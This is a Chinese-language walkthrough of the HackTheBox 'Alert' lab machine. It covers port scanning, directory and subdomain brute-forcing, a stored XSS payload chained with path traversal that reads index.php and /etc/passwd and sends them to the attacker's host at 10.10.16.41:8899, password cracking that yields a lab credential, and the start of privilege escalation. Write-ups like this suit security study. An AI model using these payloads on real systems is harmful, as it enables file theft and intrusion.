# Linux渗透实战之不一样的XSS-先知社区

> **来源**: https://xz.aliyun.com/news/16290  
> **文章ID**: 16290

---

  
这次想要讲的是来自HTB的Alert靶机  
<https://app.hackthebox.com/machines/Alert>  
这台机器难度标为easy，但感觉是偏中等的，建立立足点稍微难了些，后面提权较简单，侧重讲一下如何通过XSS来建立立足点

## 信息收集

### 端口扫描

```
nmap -sT --min-rate 10000 -p- 10.10.11.44
```

就开放了两个端口，枚举一下详细信息

```
nmap -sTVC -O -p22,80 10.10.11.44
............................
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 端口利用

  
这是一个可以提交md格式文件的界面，上网简单搜一下

  
又联想到靶机名称Alert，很容易想到xss，先简单测试一下

```
<script>alert('hello')</script>
```

  
存在xss！先看一下有没有感兴趣的目录

### 目录爆破

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://alert.htb  -x php,
.txt
```

  
有个messages.php，这个记住后面要考  
在来个子域名爆破，这在渗透测试过程中是很容易想到的，虽然这个子域名暴露的攻击面对后续利用不大，但也是应该要尝试一下的

### 子域名爆破

```
ffuf -c -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt -u 'http://alert.htb' -H "Host:FUZZ.alert.htb" -fw 20
```

爆破出来了statistics  
访问看看<http://statistics.alert.htb>

  
一个登录界面，但我们没有凭据(后面拿到凭据看了下，是个统计捐赠的界面....)  
简单枚举过后，感觉突破点在XSS那里

## 建立立足点

想起xss很容易联想盗用cookie，获取敏感信息，但并没有发现登录界面，侧重点在于怎么利用xss去读文件  
在网上找到了这篇文章  
<https://exploit-notes.hdks.org/exploit/web/security-risk/xss/>

  
这个很有趣，试试能否读到敏感文件，先读一下index.php试试

```
<script>
window.onload = function() {
    fetch("http://alert.htb/index.php")
        .then(resp => resp.text())
        .then(text => {
            fetch(`http://10.10.16.41:8899/?text=${btoa(text)}`);
        })
        .catch(err => {
            fetch(`http://10.10.16.41:8899/?err=${err}`);
        });
}
</script>
```

  
成功读到文件，base64解码一下

  
想到前面枚举出的messages.php，比较可疑，我们尝试读一下

  
但没读出来，想到还有一个提交留言的界面

  
成功读出messages.php，并且我们看到了file，看到这个大家应该都不陌生，尝试利用file来读取/etc/passwd



```
<script>
window.onload = function() {
    fetch("http://alert.htb/messages.php?file=../../../../../../../../etc/passwd")
        .then(resp => resp.text())
        .then(text => {
            fetch(`http://10.10.16.41:8899/?text=${btoa(text)}`);
        })
        .catch(err => {
            fetch(`http://10.10.16.41:8899/?err=${err}`);
        });
}
</script>
```

  
找到两个用户，albert和david可以考虑ssh爆破，但优先级比较低,暂且不做尝试  
我们来看看配置文件，在网上找到了这篇文章  
<https://daolgts.github.io/2019/03/08/%E6%95%8F%E6%84%9F%E6%96%87%E4%BB%B6%E6%90%9C%E9%9B%86/>

  
可以看目录，我们尝试读一下

  
发现敏感数据/var/www/statistics.alert.htb/.htpaswd

  
John!启动

  
成功爆破出密码，获得一组凭据albert:manchesterunited  
尝试ssh连接



## 权限提升

```
ss -tuln
```

  
有个8080端口，ssh端口转发看一下

```
ssh albert@alert.htb -L 0.0.0.0:8080:localhost:8080
```

  
是个监控界面，看着没啥用，但让我想到了pspy  
<https://github.com/DominicBreuker/pspy>  
无需root权限即可监控linux进程  
发现感兴趣的进程

```
CMD: UID=0     PID=32814  | /usr/bin/php -f /opt/website-monitor/config/configuration.php
```

